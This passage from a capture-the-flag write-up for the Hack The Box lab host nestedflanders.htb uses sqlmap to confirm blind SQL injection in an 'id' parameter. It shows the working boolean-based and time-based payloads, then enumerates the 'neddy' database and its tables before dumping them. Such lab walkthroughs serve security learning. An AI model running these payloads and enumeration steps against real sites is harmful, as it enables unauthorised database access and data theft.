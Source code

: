```
# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 -p id
[...]
sqlmap identified the following injection point(s) with a total of 288 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=587' AND 5533=5533 AND 'BkIC'='BkIC

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=587' AND SLEEP(5) AND 'kUKZ'='kUKZ
---
[00:51:04] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
```

The boolean-blind injection is faster to dump the database and is less susceptible to instability if other people are hammering the box. First I check the current database used, then dump the list of tables from database `neddy`:

```
# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --current-db
[...]
[00:54:27] [INFO] retrieved: neddy
current database:    'neddy'
```

```
# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --tables -D neddy
[...]
Database: neddy
[11 tables]
+--------------+
| config       |
| customers    |
| employees    |
| filepath     |
| idname       |
| offices      |
| orderdetails |
| orders       |
| payments     |
| productlines |
| products     |
+--------------+
```

I'll focus on `config`, `idname` and `filepath` tables first. The other tables contain a lot of rows and it would take too long to dump everything. I increase the thread count to make it a bit faster.
